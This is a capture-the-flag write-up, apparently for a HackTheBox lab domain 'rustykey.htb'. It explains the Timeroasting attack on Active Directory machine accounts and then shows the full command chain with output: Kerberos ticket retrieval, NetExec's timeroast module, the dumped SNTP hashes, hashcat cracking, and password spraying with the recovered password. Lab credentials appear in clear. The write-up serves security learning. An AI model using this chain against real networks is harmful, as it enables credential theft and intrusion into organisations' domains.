


> Author : lineeralgebra
{:.prompt-tip}

We attempted common Active Directory enumeration techniques like **AS-REP roasting** and **Kerberoasting**, but neither yielded any results.

However, there's a newer attack technique worth exploring: **Timeroasting**.

### What is Timeroasting?

Think of Timeroasting (or as I like to call it, “time baking”) as a clever trick attackers use **after gaining a foothold** in a network. It exploits a subtle flaw in Microsoft’s **MS-SNTP (Secure Network Time Protocol)** implementation, particularly the way time synchronization is handled between domain-joined systems and the Domain Controller.

Here’s how it works:

The attacker impersonates a computer on the network and initiates a time sync with the Domain Controller by saying something like, “Hey, let’s match clocks!” During this process, they can trick the system into leaking a "photocopy of a photocopy" — the **MD5 digest of the NTLM hash** — belonging to **machine accounts**.

Once obtained, the attacker takes the hash home (figuratively speaking) and tries to **crack it offline**, using brute-force or dictionary attacks, hoping to recover the actual machine password.

Now, here’s the catch: most modern machine account passwords are **32-character random strings** auto-generated by the system — practically uncrackable, even with massive GPU rigs.

So, why bother with Timeroasting?

Because attackers aren't always looking for the strongest target. They're **looking for misconfigurations** — the weak links:

- **Weak machine passwords** set manually by admins. Sometimes, for convenience, an admin might set a password like `123456` or `Password1!` and forget to rotate it later.
- **Factory default passwords**: During mass deployments, IT may pre-create machine accounts with a default password for provisioning. If even one of these machines makes it to production without a password change, it’s a ticking time bomb.
- **Orphaned machine accounts**: Devices that have long since been decommissioned — maybe even physically scrapped — but their AD computer objects remain untouched, with passwords that haven’t changed in years. These "zombie" accounts are low-hanging fruit.

So the true value of Timeroasting lies not in cracking every hash, but in **“panning for gold”** — identifying the occasional weak or forgotten machine account among a sea of hardened ones.

### Tooling

Recently, tools like **NetExec** have added support for the `timeroast` module, and **Hashcat** now supports cracking the resulting hashes as well — making this attack vector more accessible and effective than ever.

```bash
faketime "$(ntpdate -q rustykey.htb | cut -d ' ' -f 1,2)" getTGT.py  rustykey.htb/rr.parker:'8#t5HE8L!W3A' -dc-ip 10.10.11.75                  

[*] Saving ticket in rr.parker.ccache
```

and export it

```bash
export KRB5CCNAME=rr.parker.ccache  
klist
Ticket cache: FILE:rr.parker.ccache
Default principal: rr.parker@RUSTYKEY.HTB

Valid starting       Expires              Service principal
07/02/2025 02:38:03  07/02/2025 12:38:03  krbtgt/RUSTYKEY.HTB@RUSTYKEY.HTB
        renew until 07/03/2025 02:38:02
```

and now we can use

```bash
faketime "$(ntpdate -q rustykey.htb | cut -d ' ' -f 1,2)" nxc smb dc.rustykey.htb -u 'rr.parker' -p '8#t5HE8L!W3A' -k -M timeroast
```



Got some hashes then prepare to use Hashcat to crack them:

```bash
faketime "$(ntpdate -q rustykey.htb | cut -d ' ' -f 1,2)" nxc smb dc.rustykey.htb -u 'rr.parker' -p '8#t5HE8L!W3A' -k -M timeroast > timehashes.txt            

grep -E '\$.{0,}' timehashes.txt -o > timeroast.hashes
cat timeroast.hashes 
$sntp-ms$f0f1fde00c60a17d3e6d8c123b4f6c35$1c0111e900000000000a2a034c4f434cec0f1b9fcd3c8846e1b8428bffbfcd0aec0f5302c1342edbec0f5302c13473a5
$sntp-ms$c55add1c2b9992ad50333673bc7e7431$1c0111e900000000000a2a034c4f434cec0f1b9fcdadede4e1b8428bffbfcd0aec0f53035dce6c09ec0f53035dcecf05
$sntp-ms$18845956d00599d2b4a67e8d86311f71$1c0111e900000000000a2a034c4f434cec0f1b9fcf8519afe1b8428bffbfcd0aec0f53035fa5a038ec0f53035fa60334
$sntp-ms$45bb6f1449c34f049454aae9d8ea5447$1c0111e900000000000a2a034c4f434cec0f1b9fcd12fee0e1b8428bffbfcd0aec0f5303610a9ebfec0f5303610ae388
$sntp-ms$e65ab82038f6f43aa41522f348579ab5$1c0111e900000000000a2a034c4f434cec0f1b9fce7fc837e1b8428bffbfcd0aec0f530362776b71ec0f53036277a984
$sntp-ms$65da5a9a4fd22ee53a7e12cefc4b51dd$1c0111e900000000000a2a034c4f434cec0f1b9fcff7d086e1b8428bffbfcd0aec0f530363ef7a76ec0f530363efb026
$sntp-ms$b98d70386d0ee50ca433fb4eeb8cb16f$1c0111e900000000000a2a034c4f434cec0f1b9fd05de30ae1b8428bffbfcd0aec0f530374765ba6ec0f5303747688f3
$sntp-ms$cbcc4896310a8c458573c1512fc37953$1c0111e900000000000a2a034c4f434cec0f1b9fce0cf32de1b8428bffbfcd0aec0f530375fc7607ec0f530375fca1a6
$sntp-ms$579eadad7f139d399676307b34625317$1c0111e900000000000a2a034c4f434cec0f1b9fce53d20fe1b8428bffbfcd0aec0f53037643533bec0f530376438235
$sntp-ms$56c4366faa2bb63547c109aaea811462$1c0111e900000000000a2a034c4f434cec0f1b9fccd2079fe1b8428bffbfcd0aec0f530378da0d27ec0f530378da4b3a
$sntp-ms$a3519cfcdac3ed9dbd529679e2ae58b1$1c0111e900000000000a2a034c4f434cec0f1b9fcd0c4dece1b8428bffbfcd0aec0f5303791460e0ec0f530379148e2c
$sntp-ms$166a1e66b0e0bdbeacdf8312e6331842$1c0111e900000000000a2a034c4f434cec0f1b9fce98f7b3e1b8428bffbfcd0aec0f53037aa103f1ec0f53037aa13b4e
$sntp-ms$477e32b827304ea413cbb37ecccb7690$1c0111e900000000000a2a034c4f434cec0f1b9fccbc0427e1b8428bffbfcd0aec0f53037cdc9b76ec0f53037cdce1ed
$sntp-ms$bfc314ea77a38d23df1020e1bfa62c57$1c0111e900000000000a2a034c4f434cec0f1b9fcdb2646be1b8428bffbfcd0aec0f53037dd305cbec0f53037dd33d29
$sntp-ms$5d4ab4e4c4abe719bb59cc3b879d4559$1c0111e900000000000a2a034c4f434cec0f1b9fcf5e7e3ae1b8428bffbfcd0aec0f53037f7f1f9aec0f53037f7f5dae
$sntp-ms$a3958cd3c77c0dc5a702a409fea79719$1c0111e900000000000a2a034c4f434cec0f1b9fccf84a29e1b8428bffbfcd0aec0f530380eff419ec0f530380f02b76
```

Then we use the [Hashcat beta version](https://hashcat.net/beta/) including the mode 31300 for MS SNTP:

```bash
7z x hashcat-6.2.6+1072.7z 
hashcat-6.2.6/hashcat.bin -a 0 -m 31300 timeroast.hashes /usr/share/wordlists/rockyou.txt
...
$sntp-
ms$62e171e78566a05290b376b3ea5a9261$1c0111e900000000000a5dff4c4f434cec0e08cd54b
8503ee1b8428bffbfcd0aec0e84b97ca7cfbdec0e84b97ca80064:Rusty88!
```



and now we can do password spray

```bash
faketime "$(ntpdate -q rustykey.htb | cut -d ' ' -f 1,2)" nxc smb dc.rustykey.htb -u users.txt -p 'Rusty88!' -k                                 
[SNIP]
SMB         dc.rustykey.htb 445    dc               [+] rustykey.htb\IT-Computer3$:Rusty88! 
```